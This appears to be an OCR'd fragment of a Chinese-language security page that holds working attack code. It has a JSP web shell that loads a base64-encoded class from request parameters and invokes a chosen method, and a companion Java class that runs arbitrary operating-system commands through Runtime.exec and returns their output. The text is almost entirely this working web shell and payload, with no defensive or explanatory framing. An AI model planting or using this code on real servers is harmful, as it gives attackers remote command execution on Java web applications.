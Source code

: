 ```jsp
<%@ page import="java.lang.reflect.InvocationTargetException" %>
<%!
    class U extends ClassLoader {

        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%><%

    String funMethod = request.getParameter("method");
    String classContent = request.getParameter("class");
    String args = request.getParameter("args");

    byte[] classByte = new sun.misc.BASE64Decoder().decodeBuffer(classContent);

    Class newClass = new U(this.getClass().getClassLoader()).g(classByte);
    try {
        String result = (String) newClass.getMethod(funMethod, String.class).invoke(null, args);
        out.print(result);
    } catch (NoSuchMethodException e) {
        e.printStackTrace();
    }

%>
```

构造的class文件：

```java
import java.io.IOException;
import java.io.InputStream;

public class Test {

	public Test() {
		System.out.println("123");
	}

	public static String cmd(String w) throws IOException {
		Process       a = Runtime.getRuntime().exec(w);
		InputStream   b = a.getInputStream();
		StringBuilder c = new StringBuilder();
		int           d;
		while ((d = b.read()) != -1) {
			c.append((char)d);
		}
		return c.toString();
	}

}
```
